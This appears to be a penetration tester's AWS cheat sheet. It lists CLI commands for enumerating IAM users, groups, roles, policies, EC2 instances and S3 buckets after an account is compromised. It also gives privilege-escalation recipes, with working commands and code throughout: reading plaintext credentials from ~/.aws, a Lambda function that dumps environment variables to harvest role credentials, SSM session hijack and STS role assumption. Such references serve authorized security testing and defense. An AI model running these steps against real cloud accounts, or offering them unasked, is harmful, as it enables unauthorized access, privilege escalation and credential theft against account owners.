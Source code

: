 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```
### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### S3 bucket enumeration
- List all S3 buckets
```
aws s3 ls --profile PROFILE
```
- List a specific S3 bucket's content
```
aws s3 ls BUCKETNAME
```
- Download an object from an S3 bucket
```
aws s3 copy s3://BUCKETNAME/OBJECTNAME /PATH/TO/LOCAL/COPY
```

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region REGION --profile PROFILE
```
- List lambda functions to confirm the function was created
```
aws lambda list-functions
```
- Run the function to obtain short-lived credentials
```
aws lambda invoke --function-name "privesc-fun" --log-type Tail output.txt --region REGION --profile PROFILE
```

### Privilege escalation via SSM
- If the compromised account has `ssm:*` access then it has access to VMs and EC2 instances without needing a public IP address, SSH keys or username/password combinations
- Start a session in an EC2 instance
```
aws ssm start-session --target INSTANCE_ID --profile PROFILE --region REGION
```
- Enumerate the EC2 instance's role
```
aws sts get-caller-identity
```
- Continue enumeration and repeat the enumeration commands at the top of this document

### Privilege escalation via STS
- If the compromised account has `sts:*` privileges then you can assume roles
- Enumerate the existing roles and check for the `sts:AssumeRole` action for the role you currently hold
- Assume the role found and get a short-lived credential set
```
aws sts assume-role --role-arn FOUNDROLEARN --role-session-name SOMENAME
```
### More resources
- https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/